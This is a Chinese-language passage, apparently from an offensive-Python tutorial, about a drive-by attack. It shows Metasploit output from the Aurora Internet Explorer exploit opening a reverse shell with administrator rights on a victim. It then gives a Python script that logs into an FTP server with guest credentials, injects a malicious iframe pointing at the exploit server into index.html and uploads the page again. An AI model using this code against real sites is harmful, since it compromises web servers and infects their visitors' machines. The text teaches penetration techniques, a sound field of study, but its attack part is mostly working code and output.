 任何脆弱的客户机连接到我们的服务页面 http://10.10.10.112:8080/exploit 都将会落入我们的陷阱中。如果成功，它将建立一个反向的TCP Shell并允许我们远程的在客户机上执行Windows命令。从这个命令行Shell我们能在受感染的受害者主机上以管理员权限执行命令。

```py
msf exploit(ms10_002_aurora) > [*] Sending Internet Explorer
"Aurora"
 Memory Corruption to client 10.10.10.107
[*] Sending stage (240 bytes) to 10.10.10.107
[*] Command shell session 1 opened (10.10.10.112:443 ->
 10.10.10.107:49181) at 2012-06-24 10:05:10 -0600
msf exploit(ms10_002_aurora) > sessions -i 1
[*] Starting interaction with 1...
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\Documents and Settings\Administrator\Desktop>
```

接下来，我们必须添加一个重定向从被感染的主机到我们的恶意的服务器。为此，我们可以从攻陷的服务器下载默认的WEB页面，注入一个 iframe ，然后上传恶意的页面到服务器上。看看这个  injectPage() 函数，它接受一个FTP连接，一个页面名和一个重定向的 iframe 的字符串作为输入，然后下载页面作为临时副本，接下来，添加重定向的 iframe 代码到临时文件中。最后，该函数上传这个被感染的页面到服务器中。


```py
# coding=UTF-8
def injectPage(ftp, page, redirect):
 f = open(page + '.tmp', 'w')
 ftp.retrlines('RETR ' + page, f.write)
 print '[+] Downloaded Page: ' + page
 f.write(redirect)
 f.close()
 print '[+] Injected Malicious IFrame on: ' + page
 ftp.storlines('STOR ' + page, open(page + '.tmp'))
 print '[+] Uploaded Injected Page: ' + page
host = '192.168.95.179'
userName = 'guest'
passWord = 'guest'
ftp = ftplib.FTP(host)
ftp.login(userName, passWord)
redirect = '<iframe
src="http://10.10.10.112:8080/exploit"></iframe>'
injectPage(ftp, 'index.html', redirect)
```

运行我们的代码，我们可以看到它下载 index.html 页面然后注入我们的恶意代码到里面。

```
attacker# python injectPage.py
[+] Downloaded Page: index.html
[+] Injected Malicious IFrame on: index.html
[+] Uploaded Injected Page: index.html 
```